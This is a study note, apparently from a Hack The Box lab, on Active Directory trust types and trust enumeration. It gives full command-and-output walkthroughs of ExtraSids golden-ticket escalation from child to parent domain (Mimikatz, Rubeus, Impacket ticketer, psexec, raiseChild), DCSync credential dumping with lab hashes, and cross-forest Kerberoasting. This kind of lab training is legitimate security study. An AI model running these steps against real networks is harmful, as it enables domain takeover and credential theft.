 Domain Trust Attack
####################

Date: 2025-01-06 11:45:37

Status: #new

Tags: :ref:`active directory enumeration attacks`

----


Description 
**************

A trust is to establish a domain-domain or forest-forest authentication.  The direction of the trust can vary.

Types of trust
***************

1. Parent Child:  domains and sub domains can authenticate back and forth. 
2. Cross-link:  A trust between child domains 
3. External: Non-Transitive trust between separate domains in separate forests (SIDs are scrubbed)
4. Tree-root: Two way transitive trust between a forest root domain and a new tree root domain. 
5. Forest: A transitive trust between two forest root domains 
6. ESAE: A bastion forest to manage AD. 


Trusts can be setup in two directions 

1. One-way
2. Two-way

Enumerating Trust relationships
*********************************

We can use the Get-ADTrust cmdlet to enumerate 
===============================================

.. code-block:: powershell

    PS C:\htb> Import-Module activedirectory
    PS C:\htb> Get-ADTrust -Filter *

We can also use the Get-DomainTrust to look at existing trusts.
=================================================================

.. code-block:: powershell

    PS C:\htb> Get-DomainTrust 

Using Get-DomainTrustMapping
==============================

.. code-block:: powershell

    PS C:\htb> Get-DomainTrustMapping

    SourceName      : INLANEFREIGHT.LOCAL
    TargetName      : LOGISTICS.INLANEFREIGHT.LOCAL
    TrustType       : WINDOWS_ACTIVE_DIRECTORY
    TrustAttributes : WITHIN_FOREST
    TrustDirection  : Bidirectional
    WhenCreated     : 11/1/2021 6:20:22 PM
    WhenChanged     : 2/26/2022 11:55:55 PM

    SourceName      : INLANEFREIGHT.LOCAL
    TargetName      : FREIGHTLOGISTICS.LOCAL
    TrustType       : WINDOWS_ACTIVE_DIRECTORY
    TrustAttributes : FOREST_TRANSITIVE
    TrustDirection  : Bidirectional
    WhenCreated     : 11/1/2021 8:07:09 PM
    WhenChanged     : 2/27/2022 12:02:39 AM

    SourceName      : FREIGHTLOGISTICS.LOCAL
    TargetName      : INLANEFREIGHT.LOCAL
    TrustType       : WINDOWS_ACTIVE_DIRECTORY
    TrustAttributes : FOREST_TRANSITIVE
    TrustDirection  : Bidirectional
    WhenCreated     : 11/1/2021 8:07:08 PM
    WhenChanged     : 2/27/2022 12:02:41 AM

    SourceName      : LOGISTICS.INLANEFREIGHT.LOCAL
    TargetName      : INLANEFREIGHT.LOCAL
    TrustType       : WINDOWS_ACTIVE_DIRECTORY
    TrustAttributes : WITHIN_FOREST
    TrustDirection  : Bidirectional
    WhenCreated     : 11/1/2021 6:20:22 PM
    WhenChanged     : 2/26/2022 11:55:55 PM

Checking Users in the Child Domain using Get-DomainUser
**********************************************************

using Get-DomainUser 
======================

.. code-block:: powershell

    PS C:\htb> Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName

    samaccountname
    --------------
    htb-student_adm
    Administrator
    Guest
    lab_adm
    krbtgt


Using netdom to query domain trust 
====================================

.. code-block:: console 

    C:\htb> netdom query /domain:inlanefreight.local trust
    Direction Trusted\Trusting domain                         Trust type
    ========= =======================                         ==========

    <->       LOGISTICS.INLANEFREIGHT.LOCAL
    Direct
    Not found

    <->       FREIGHTLOGISTICS.LOCAL
    Direct
    Not found

    The command completed successfully.

Using netdom to query domain controllers
===========================================

.. code-block:: console

    C:\htb> netdom query /domain:inlanefreight.local dc
    List of domain controllers with accounts in the domain:

    ACADEMY-EA-DC01
    The command completed successfully.

Using netdom to query workstations and servers
================================================

.. code-block:: console

    C:\htb> netdom query /domain:inlanefreight.local workstation
    List of workstations with accounts in the domain:

    ACADEMY-EA-MS01
    ACADEMY-EA-MX01      ( Workstation or Server )

    SQL01      ( Workstation or Server )
    ILF-XRG      ( Workstation or Server )
    MAINLON      ( Workstation or Server )
    CISERVER      ( Workstation or Server )
    INDEX-DEV-LON      ( Workstation or Server )
    ...SNIP...


Using :ref:`bloodhound` to enumerate trust relationships
**********************************************************

.. image:: ../../img/BH_trusts.png


Attacking Parent-Child trust relationships
********************************************

ExtraSids Attack with Mimikatz
===============================

This allows for the parent domain to be compromised once the child domain has been taken.
by setting the SIDHistory for a child domain user account to `Enterprise Admins Group` the parent domain
will treat this account as so.  

**Here is how the exploit runs:**

Step 1: Obtaining the KRBTGT Account's NT Hash using Mimikatz

.. code-block:: powershell

    PS C:\htb>  mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
    [DC] 'LOGISTICS.INLANEFREIGHT.LOCAL' will be the domain
    [DC] 'ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL' will be the DC server
    [DC] 'LOGISTICS\krbtgt' will be the user account
    [rpc] Service  : ldap
    [rpc] AuthnSvc : GSS_NEGOTIATE (9)

    Object RDN           : krbtgt

    ** SAM ACCOUNT **

    SAM Username         : krbtgt
    Account Type         : 30000000 ( USER_OBJECT )
    User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
    Account expiration   :
    Password last change : 11/1/2021 11:21:33 AM
    Object Security ID   : S-1-5-21-2806153819-209893948-922872689-502
    Object Relative ID   : 502

    Credentials:
    Hash NTLM: 9d765b482771505cbe97411065964d5f
        ntlm- 0: 9d765b482771505cbe97411065964d5f
        lm  - 0: 69df324191d4a80f0ed100c10f20561e

Step 2: Use Get-DomainsSID

.. code-block:: powershell

    PS C:\htb> Get-DomainSID

    S-1-5-21-2806153819-209893948-922872689

Step 3: Get the domain group SID

.. code-block:: powershell

    PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

    distinguishedname                                       objectsid                                    
    -----------------                                       ---------                                    
    CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519

At this point, we have gathered the following data points:

- The KRBTGT hash for the child domain: 9d765b482771505cbe97411065964d5f
- The SID for the child domain: S-1-5-21-2806153819-209893948-922872689
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: hacker
- The FQDN of the child domain: LOGISTICS.INLANEFREIGHT.LOCAL
- The SID of the Enterprise Admins group of the root domain: S-1-5-21-3842939050-3880317879-2865463114-519

For fun, lets confirm that we do not have access to the parent domains file share 

.. code-block:: powershell

    PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$

    ls : Access is denied
    At line:1 char:1
    + ls \\academy-ea-dc01.inlanefreight.local\c$
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : PermissionDenied: (\\academy-ea-dc01.inlanefreight.local\c$:String) [Get-ChildItem], UnauthorizedAccessException
        + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand

Step 4:  Creating a Golden ticket

.. code-block:: powershell

    PS C:\htb> mimikatz.exe

    mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
    User      : hacker
    Domain    : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
    SID       : S-1-5-21-2806153819-209893948-922872689
    User Id   : 500
    Groups Id : *513 512 520 518 519
    Extra SIDs: S-1-5-21-3842939050-3880317879-2865463114-519 ;
    ServiceKey: 9d765b482771505cbe97411065964d5f - rc4_hmac_nt
    Lifetime  : 3/28/2022 7:59:50 PM ; 3/25/2032 7:59:50 PM ; 3/25/2032 7:59:50 PM
    -> Ticket : ** Pass The Ticket **

    * PAC generated
    * PAC signed
    * EncTicketPart generated
    * EncTicketPart encrypted
    * KrbCred generated

    Golden ticket for 'hacker @ LOGISTICS.INLANEFREIGHT.LOCAL' successfully submitted for current session

Then confirm that the ticket is now in memory with kinit 

.. code-block:: powershell

    PS C:\htb> klist

    Current LogonId is 0:0xf6462

    Cached Tickets: (1)

    #0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
            Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
            KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
            Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
            Start Time: 3/28/2022 19:59:50 (local)
            End Time:   3/25/2032 19:59:50 (local)
            Renew Time: 3/25/2032 19:59:50 (local)
            Session Key Type: RSADSI RC4-HMAC(NT)
            Cache Flags: 0x1 -> PRIMARY
            Kdc Called:

Now we can access resources in the parent domain. We can check this with requesting a file:

.. code-block:: powershell

    PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$
    Volume in drive \\academy-ea-dc01.inlanefreight.local\c$ has no label.
    Volume Serial Number is B8B3-0D72

    Directory of \\academy-ea-dc01.inlanefreight.local\c$

    09/15/2018  12:19 AM    <DIR>          PerfLogs
    10/06/2021  01:50 PM    <DIR>          Program Files
    09/15/2018  02:06 AM    <DIR>          Program Files (x86)
    11/19/2021  12:17 PM    <DIR>          Shares
    10/06/2021  10:31 AM    <DIR>          Users
    03/21/2022  12:18 PM    <DIR>          Windows
                0 File(s)              0 bytes
                6 Dir(s)  18,080,178,176 bytes free


ExtraSids Attack with Rubeus
===============================

.. code-block:: powershell

    PS C:\htb>  .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

    ______        _                      
    (_____ \      | |                     
    _____) )_   _| |__  _____ _   _  ___ 
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v2.0.2 

    [*] Action: Build TGT

    [*] Building PAC

    [*] Domain         : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
    [*] SID            : S-1-5-21-2806153819-209893948-922872689
    [*] UserId         : 500
    [*] Groups         : 520,512,513,519,518
    [*] ExtraSIDs      : S-1-5-21-3842939050-3880317879-2865463114-519
    [*] ServiceKey     : 9D765B482771505CBE97411065964D5F
    [*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
    [*] KDCKey         : 9D765B482771505CBE97411065964D5F
    [*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
    [*] Service        : krbtgt
    [*] Target         : LOGISTICS.INLANEFREIGHT.LOCAL

    [*] Generating EncTicketPart
    [*] Signing PAC
    [*] Encrypting EncTicketPart
    [*] Generating Ticket
    [*] Generated KERB-CRED
    [*] Forged a TGT for 'hacker@LOGISTICS.INLANEFREIGHT.LOCAL'

    [*] AuthTime       : 3/29/2022 10:06:41 AM
    [*] StartTime      : 3/29/2022 10:06:41 AM
    [*] EndTime        : 3/29/2022 8:06:41 PM
    [*] RenewTill      : 4/5/2022 10:06:41 AM

    [*] base64(ticket.kirbi):
        doIF0zCCBc+gAwIBBaEDAgEWooIEnDCCBJhhggSUMIIEkKADAgEFoR8bHUxPR0lTVElDUy5JTkxBTkVG
        UkVJR0hULkxPQ0FMojIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5M
        T0NBTKOCBDIwggQuoAMCARehAwIBA6KCBCAEggQc0u5onpWKAP0Hw0KJuEOAFp8OgfBXlkwH3sXu5BhH
        T3zO/Ykw2Hkq2wsoODrBj0VfvxDNNpvysToaQdjHIqIqVQ9kXfNHM7bsQezS7L1KSx++2iX94uRrwa/S
        VfgHhAuxKPlIi2phwjkxYETluKl26AUo2+WwxDXmXwGJ6LLWN1W4YGScgXAX+Kgs9xrAqJMabsAQqDfy
        k7+0EH9SbmdQYqvAPrBqYEnt0mIPM9cakei5ZS1qfUDWjUN4mxsqINm7qNQcZHWN8kFSfAbqyD/OZIMc
        g78hZ8IYL+Y4LPEpiQzM8JsXqUdQtiJXM3Eig6RulSxCo9rc5YUWTaHx/i3PfWqP+dNREtldE2sgIUQm
        9f3cO1aOCt517Mmo7lICBFXUTQJvfGFtYdc01fWLoN45AtdpJro81GwihIFMcp/vmPBlqQGxAtRKzgzY
        acuk8YYogiP6815+x4vSZEL2JOJyLXSW0OPhguYSqAIEQshOkBm2p2jahQWYvCPPDd/EFM7S3NdMnJOz
        X3P7ObzVTAPQ/o9lSaXlopQH6L46z6PTcC/4GwaRbqVnm1RU0O3VpVr5bgaR+Nas5VYGBYIHOw3Qx5YT
        3dtLvCxNa3cEgllr9N0BjCl1iQGWyFo72JYI9JLV0VAjnyRxFqHztiSctDExnwqWiyDaGET31PRdEz+H
        WlAi4Y56GaDPrSZFS1RHofKqehMQD6gNrIxWPHdS9aiMAnhQth8GKbLqimcVrCUG+eghE+CN999gHNMG
        Be1Vnz8Oc3DIM9FNLFVZiqJrAvsq2paakZnjf5HXOZ6EdqWkwiWpbGXv4qyuZ8jnUyHxavOOPDAHdVeo
        /RIfLx12GlLzN5y7132Rj4iZlkVgAyB6+PIpjuDLDSq6UJnHRkYlJ/3l5j0KxgjdZbwoFbC7p76IPC3B
        aY97mXatvMfrrc/Aw5JaIFSaOYQ8M/frCG738e90IK/2eTFZD9/kKXDgmwMowBEmT3IWj9lgOixNcNV/
        OPbuqR9QiT4psvzLGmd0jxu4JSm8Usw5iBiIuW/pwcHKFgL1hCBEtUkaWH24fuJuAIdei0r9DolImqC3
        sERVQ5VSc7u4oaAIyv7Acq+UrPMwnrkDrB6C7WBXiuoBAzPQULPTWih6LyAwenrpd0sOEOiPvh8NlvIH
        eOhKwWOY6GVpVWEShRLDl9/XLxdnRfnNZgn2SvHOAJfYbRgRHMWAfzA+2+xps6WS/NNf1vZtUV/KRLlW
        sL5v91jmzGiZQcENkLeozZ7kIsY/zadFqVnrnQqsd97qcLYktZ4yOYpxH43JYS2e+cXZ+NXLKxex37HQ
        F5aNP7EITdjQds0lbyb9K/iUY27iyw7dRVLz3y5Dic4S4+cvJBSz6Y1zJHpLkDfYVQbBUCfUps8ImJij
        Hf+jggEhMIIBHaADAgEAooIBFASCARB9ggEMMIIBCKCCAQQwggEAMIH9oBswGaADAgEXoRIEEBrCyB2T
        JTKolmppTTXOXQShHxsdTE9HSVNUSUNTLklOTEFORUZSRUlHSFQuTE9DQUyiEzARoAMCAQGhCjAIGwZo
        YWNrZXKjBwMFAEDgAACkERgPMjAyMjAzMjkxNzA2NDFapREYDzIwMjIwMzI5MTcwNjQxWqYRGA8yMDIy
        MDMzMDAzMDY0MVqnERgPMjAyMjA0MDUxNzA2NDFaqB8bHUxPR0lTVElDUy5JTkxBTkVGUkVJR0hULkxP
        Q0FMqTIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5MT0NBTA==

    [+] Ticket successfully imported!

You can now verify that the ticket is in memory with kinit like before. 

Using the golden ticket to perform a DCSync attack 
===================================================

.. code-block:: powershell

    PS C:\Tools\mimikatz\x64> .\mimikatz.exe

    .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
    .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
    ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
    ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
    '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
    '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

    mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm
    [DC] 'INLANEFREIGHT.LOCAL' will be the domain
    [DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
    [DC] 'INLANEFREIGHT\lab_adm' will be the user account
    [rpc] Service  : ldap
    [rpc] AuthnSvc : GSS_NEGOTIATE (9)

    Object RDN           : lab_adm

    ** SAM ACCOUNT **

    SAM Username         : lab_adm
    Account Type         : 30000000 ( USER_OBJECT )
    User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
    Account expiration   :
    Password last change : 2/27/2022 10:53:21 PM
    Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-1001
    Object Relative ID   : 1001

    Credentials:
    Hash NTLM: 663715a1a8b957e8e9943cc98ea451b6
        ntlm- 0: 663715a1a8b957e8e9943cc98ea451b6
        ntlm- 1: 663715a1a8b957e8e9943cc98ea451b6
        lm  - 0: 6053227db44e996fe16b107d9d1e95a0

If there are multiple domains that are not the same as the target domain, you will need to specify the exact domain to perform the attack 

.. code-block:: powershell

    mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL



ExtraSIDS Attack from Linux
******************************

The same information is required to perform this attack from a Linux host:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain
- The SID of the Enterprise Admins group of the root domain

Performing DCSync with :ref:`secretsdump.py`
=============================================

.. code-block:: bash

    Temen@htb[/htb]$ secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt

    Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

    Password:
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
    [*] Kerberos keys grabbed
    krbtgt:aes256-cts-hmac-sha1-96:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
    krbtgt:aes128-cts-hmac-sha1-96:ca289e175c372cebd18083983f88c03e
    krbtgt:des-cbc-md5:fee04c3d026d7538
    [*] Cleaning up...

Now we can user :ref:`lookupsid.py` to perform a SID brute force to find the SID of the child domain. 

.. code-block:: bash

    Temen@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 

    Password:
    [*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
    498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
    500: INLANEFREIGHT\administrator (SidTypeUser)
    501: INLANEFREIGHT\guest (SidTypeUser)
    502: INLANEFREIGHT\krbtgt (SidTypeUser)
    512: INLANEFREIGHT\Domain Admins (SidTypeGroup)
    513: INLANEFREIGHT\Domain Users (SidTypeGroup)
    514: INLANEFREIGHT\Domain Guests (SidTypeGroup)
    515: INLANEFREIGHT\Domain Computers (SidTypeGroup)
    516: INLANEFREIGHT\Domain Controllers (SidTypeGroup)
    517: INLANEFREIGHT\Cert Publishers (SidTypeAlias)
    518: INLANEFREIGHT\Schema Admins (SidTypeGroup)
    519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)

From this search we see the domain sid is:      S-1-5-21-3842939050-3880317879-2865463114
and the sid of the enterprise admins is:        S-1-5-21-3842939050-3880317879-2865463114-519

Now we can user :ref:`ticketer.py` to construct a Golden Ticket 

.. code-block:: bash

    Temen@htb[/htb]$ ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

    Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

    [*] Creating basic skeleton ticket and PAC Infos
    [*] Customizing ticket for LOGISTICS.INLANEFREIGHT.LOCAL/hacker
    [*] 	PAC_LOGON_INFO
    [*] 	PAC_CLIENT_INFO_TYPE
    [*] 	EncTicketPart
    [*] 	EncAsRepPart
    [*] Signing/Encrypting final ticket
    [*] 	PAC_SERVER_CHECKSUM
    [*] 	PAC_PRIVSVR_CHECKSUM
    [*] 	EncTicketPart
    [*] 	EncASRepPart
    [*] Saving ticket in hacker.ccache

Now we can set our environmental variable KRB5CCNAME 

.. code-block:: bash

    Temen@htb[/htb]$ export KRB5CCNAME=hacker.ccache 

Now we can test if this is working by using :ref:`psexec.py`

.. code-block:: bash

    Temen@htb[/htb]$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

    Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

    [*] Requesting shares on 172.16.5.5.....
    [*] Found writable share ADMIN$
    [*] Uploading file nkYjGWDZ.exe
    [*] Opening SVCManager on 172.16.5.5.....
    [*] Creating service eTCU on 172.16.5.5.....
    [*] Starting service eTCU.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.107]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32> whoami
    nt authority\system

    C:\Windows\system32> hostname
    ACADEMY-EA-DC01

Using :ref:`raisechild.py` to escalate
========================================

.. code-block:: bash

    Temen@htb[/htb]$ raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm

    Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

    Password:
    [*] Raising child domain LOGISTICS.INLANEFREIGHT.LOCAL
    [*] Forest FQDN is: INLANEFREIGHT.LOCAL
    [*] Raising LOGISTICS.INLANEFREIGHT.LOCAL to INLANEFREIGHT.LOCAL
    [*] INLANEFREIGHT.LOCAL Enterprise Admin SID is: S-1-5-21-3842939050-3880317879-2865463114-519
    [*] Getting credentials for LOGISTICS.INLANEFREIGHT.LOCAL
    LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
    LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
    [*] Getting credentials for INLANEFREIGHT.LOCAL
    INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
    INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:69e57bd7e7421c3cfdab757af255d6af07d41b80913281e0c528d31e58e31e6d
    [*] Target User account name is administrator
    INLANEFREIGHT.LOCAL/administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
    INLANEFREIGHT.LOCAL/administrator:aes256-cts-hmac-sha1-96s:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
    [*] Opening PSEXEC shell at ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
    [*] Requesting shares on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
    [*] Found writable share ADMIN$
    [*] Uploading file BnEGssCE.exe
    [*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
    [*] Creating service UVNb on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
    [*] Starting service UVNb.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.107]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    nt authority\system

    C:\Windows\system32>exit
    [*] Process cmd.exe finished with ErrorCode: 0, ReturnCode: 0
    [*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
    [*] Stopping service UVNb.....
    [*] Removing service UVNb.....
    [*] Removing file BnEGssCE.exe.....


Cross-Forest Kerberoasting
***************************

Enumerating Accounts for Associated SPNs Using Get-DomainUser
================================================================

.. code-block:: powershell

    PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

    samaccountname
    --------------
    krbtgt
    mssqlsvc

We can see that there is a  mssqlsvc account, and after looking at it's group membership we see that is it also a member of the `Domain Admins` group. 

.. code-block:: powershell

    PS C:\htb> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof

    samaccountname memberof
    -------------- --------
    mssqlsvc       CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL

We can try and Kerberoast this account using the `/domain` flag to specify the domain

.. code-block:: powershell

    PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

    ______        _
    (_____ \      | |
    _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v2.0.2

    [*] Action: Kerberoasting

    [*] NOTICE: AES hashes will be returned for AES-enabled accounts.
    [*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

    [*] Target User            : mssqlsvc
    [*] Target Domain          : FREIGHTLOGISTICS.LOCAL
    [*] Searching path 'LDAP://ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL/DC=FREIGHTLOGISTICS,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=mssqlsvc)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

    [*] Total kerberoastable users : 1

    [*] SamAccountName         : mssqlsvc
    [*] DistinguishedName      : CN=mssqlsvc,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
    [*] ServicePrincipalName   : MSSQLsvc/sql01.freightlogstics:1433
    [*] PwdLastSet             : 3/24/2022 12:47:52 PM
    [*] Supported ETypes       : RC4_HMAC_DEFAULT
    [*] Hash                   : $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$MSSQLsvc/sql01.freightlogstics:1433@FREIGHTLOGISTICS.LOCAL*$<SNIP>

The hash can be attempted cracking with Hashcat

Attacking from Linux
=====================

**Usung GetUserSPNs.py**

.. code-block:: bash

    Temen@htb[/htb]$ GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley

